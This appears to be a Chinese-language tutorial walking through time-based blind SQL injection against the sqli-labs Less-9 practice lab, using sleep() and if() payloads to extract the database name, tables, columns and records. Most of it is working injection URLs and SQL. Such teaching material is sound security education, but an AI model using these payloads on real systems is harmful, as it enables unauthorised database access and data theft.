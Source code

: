 ## 时间盲注

时间盲注又称延迟注入，适用于页面不会返回错误信息，只会回显一种界面(与布尔盲注类似)。这种情况可以利用页面响应的时间来判断SQL语句在目标数据库中是否正确执行，从而猜解一些未知的字段。

由于时间盲注的大部分SQL语句和布尔盲注的都十分类似，所以后续大部分过程只会给出网站URL和后端程序所执行的SQL语句。

### 注入过程

* 判断是否存在注入
* 获取数据库长度
* 逐字猜解数据库名
* 猜解表名数量
* 猜解某个表名长度
* 逐字猜解表名
* 猜解列名数量
* 猜解某个列名长度
* 逐字猜解列名
* 判断数据数量
* 猜解某条数据长度
* 逐位猜解数据

### 判断是否存在注入

* `sleep(time)`

  `time`为每条记录休眠的时间，time可以为小数。

  该函数是将程序挂起一段时间，挂起总时间为time*记录数。

  由于没有任何的回显内容，所以无法通过正常的方法判断是否存在注入，只能通过`sleep()`函数进行测试。

  输入`1 and sleep(5)`、`1' and sleep(5) %23`、`1" and sleep(5) %23`等判断是否存在注入点和闭合方式。

以某网站为例，当传入参数的值为`1' and sleep(5) %23`时，网站挂起了5秒多钟。多的那几十毫秒是因为除了设置挂起五秒以外，网站自身也需要请求数据包，请求过程也会消耗一定的时间。

![](image/22.jpg)

### 获取数据库名

#### 获取数据库名长度

* `if(condition, true_statement, false_statement)`

  `condition`为布尔表达式，返回真或者假。

  `true_statement`：如果条件为真，则执行该语句。

  `false_statement`：如果条件为假，则执行该语句。

仍然以某网站为例：

````
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if((length(database())=8),sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if((length(database())=8),sleep(5),1) #' LIMIT 0,1
````

![](image/23.jpg)

可能有些旧版本的`Burpsuite`并没有开启响应时间，需要自行勾选在`Columns`下的`Response received`或`Response completed`。

#### 获取数据库名

成功爆破出数据库库名`security`：

```
115		101		99		117		114		105		116		121
s		e		c		u		r		i		t		y
```

![](image/24.jpg)

### 获取表名

#### 获取表的数量

爆破之后得到表的数量为4。

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if((select%20count(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database())=4,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if((select count(table_name) from Information_schema.tables where table_schema = database())=4,sleep(5),1) #' LIMIT 0,1
```

#### 获取表名长度

爆破之后得到第一个表名长度为6。

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(length((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1))=6,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(length((select table_name from Information_schema.tables where table_schema = database() limit 0,1))=6,sleep(5),1) #' LIMIT 0,1
```

#### 获取表名

爆破出表名为：`emails`

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(ascii(substr((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1),1,1))=101,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(ascii(substr((select table_name from Information_schema.tables where table_schema = database() limit 0,1),1,1))=101,sleep(5),1) #' LIMIT 0,1
```

### 获取字段名

#### 获取字段数量

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if((select%20count(column_name)%20from%20Information_schema.columns%20where%20table_schema%20=%20database()%20and%20table_name%20=%20%27emails%27%20)=2,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if((select count(column_name) from Information_schema.columns where table_schema = database() and table_name = 'emails' )=2,sleep(5),1) #' LIMIT 0,1
```

#### 获取字段名长度

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(length((select%20column_name%20from%20Information_schema.columns%20where%20table_schema%20=%20database()%20and%20table_name%20=%20%27emails%27%20limit%200,1))=2,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(length((select column_name from Information_schema.columns where table_schema = database() and table_name = 'emails' limit 0,1))=2,sleep(5),1) #' LIMIT 0,1
```

#### 获取字段名

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(ascii(substr((select%20column_name%20from%20Information_schema.columns%20where%20table_schema%20=%20database()%20and%20table_name%20=%20%27emails%27%20limit%200,1),1,1))=105,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(ascii(substr((select column_name from Information_schema.columns where table_schema = database() and table_name = 'emails' limit 0,1),1,1))=105,sleep(5),1) #' LIMIT 0,1
```

### 获取记录

#### 获取记录条数

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if((select%20count(id)%20from%20security.emails)=8,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if((select count(id) from security.emails)=8,sleep(5),1) #' LIMIT 0,1
```

#### 获取记录长度

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(length((select%20id%20from%20security.emails%20limit%200,1))=1,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(length((select id from security.emails limit 0,1))=1,sleep(5),1) #' LIMIT 0,1
```

#### 获取记录内容

```
URL:
http://192.168.234.128/sqllab/Less-9/?id=1%27%20and%20if(ascii(substr((select%20id%20from%20security.emails%20limit%200,1),1,1))=49,sleep(5),1)%20%23
SQL:
SELECT * FROM users WHERE id='1' and if(ascii(substr((select id from security.emails limit 0,1),1,1))=49,sleep(5),1) #' LIMIT 0,1
```

## 